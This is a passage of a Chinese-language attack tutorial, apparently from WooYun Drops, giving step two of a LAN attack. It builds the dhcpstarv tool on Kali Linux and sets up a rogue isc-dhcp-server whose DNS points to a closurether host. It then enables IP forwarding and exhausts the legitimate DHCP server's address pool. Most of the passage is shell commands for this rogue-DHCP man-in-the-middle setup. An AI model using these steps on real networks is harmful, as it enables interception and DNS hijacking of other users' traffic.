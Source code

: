 
**2.进行dhcp攻击**:

下载[dhcpstarv](http://sourceforge.net/projects/dhcpstarv/files/dhcpstarv/0.2.1/dhcpstarv-0.2.1.tar.gz/download),安装：

    
    
    root@kali:~/Desktop# tar zxvf dhcpstarv-0.2.1.tar.gz
    root@kali:~/Desktop# cd dhcpstarv-0.2.1/
    root@kali:~/Desktop/dhcpstarv-0.2.1# ./configure
    root@kali:~/Desktop/dhcpstarv-0.2.1# make 
    root@kali:~/Desktop/dhcpstarv-0.2.1# make install
    

> Kali默认没有安装dhcpstarv，也可以用yersinia代替

安装dhcp服务器：

    
    
    root@kali:~# apt-get install isc-dhcp-server
    

修改dhcp配置文件dhcpd.conf

    
    
    root@kali:~# cd /etc/dhcp/
    root@kali:/etc/dhcp# cp dhcpd.conf dhcpd.conf.bak
    root@kali:/etc/dhcp# vim dhcpd.conf
    

修改DHCP分配的地址池，修改默认路由为原来路由的Ip，修改广播地址：

![Alt text](http://static.wooyun.org//drops/20151028/20151028051315759631445487920329.png)

设置dns为开启了closurether的地址，如下图：

![Alt text](http://static.wooyun.org//drops/20151028/20151028051319661891445488639504.png)

> 这里最好加一个正常的DNS服务器地址最为备选，防止我们的DNS服务对部分域名不解析

开启操作系统的路由转发：

    
    
    root@kali:~# echo "1" > /proc/sys/net/ipv4/ip_forward
    

启动DHCP服务：

    
    
    root@kali:/etc/dhcp# service isc-dhcp-server start
    

攻击正常的dhcp服务器，耗光ip资源:

    
    
    root@kali:~# dhcpstarv -i eth0 -e 192.168.1.108
    

> `-e参数`后面跟攻击者的ip

![Alt text](http://static.wooyun.org//drops/20151028/20151028051317157121445488339640.png)
